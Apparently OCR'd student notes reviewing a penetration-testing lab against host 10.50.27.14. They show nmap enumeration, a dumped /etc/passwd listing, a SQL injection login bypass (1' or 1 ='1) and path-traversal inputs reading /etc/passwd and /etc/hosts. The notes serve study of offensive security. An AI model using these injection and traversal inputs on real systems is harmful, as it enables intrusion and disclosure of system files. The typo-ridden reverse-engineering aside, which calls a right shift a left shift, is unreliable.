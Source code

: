 File to read: root:x:0:0:root:/root:/bin/bash 
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
bin:x:2:2:bin:/bin:/usr/sbin/nologin 
sys:x:3:3:sys:/dev:/usr/sbin/nologin 
sync:x:4:65534:sync:/bin:/bin/sync 
games:x:5:60:games:/usr/games:/usr/sbin/nologin 
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin 
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin 
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin 
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin 
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin 
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin 
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin 
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin syslog:x:102:106::/home/syslog:/usr/sbin/nologin messagebus:x:103:107::/nonexistent:/usr/sbin/nologin _apt:x:104:65534::/nonexistent:/usr/sbin/nologin lxd:x:105:65534::/var/lib/lxd/:/bin/false uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin 
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash 
mysql:x:111:115:MySQL Server,,,:/nonexistent:/bin/false 
user2:x:1001:1001::/home/user2:/bin/sh 
### reviwe of dry run
nmap 10.50.27.14
22 ssh
80 http
---
namp 10.50.27.14 --script=http-enum.nse
/login.php
/loging.html
/img/
---
fire fox
	10.50.27.14
 		Login page
   			usr 1' or 1 ='1
      			pass 1' or 1 ='1
	 		http post and and ? and the raw string all passwords
    		info page
      			../../../etc/passwd
	 		../../../etc/hosts

## reviwe 
 recon
 webex without crosssite 
 reverse engineering
 		if ( x * 18 + 72) {
   			code
      			}
	 	## 72 /18 to find x
   		## x >> 4 = 12 bit shit 12 to the left 4 times
 exploit development win and luixs
 post ex check the locals that give awwarness 
 win esaltion know to to get prives
 lin esaltion hot to get prives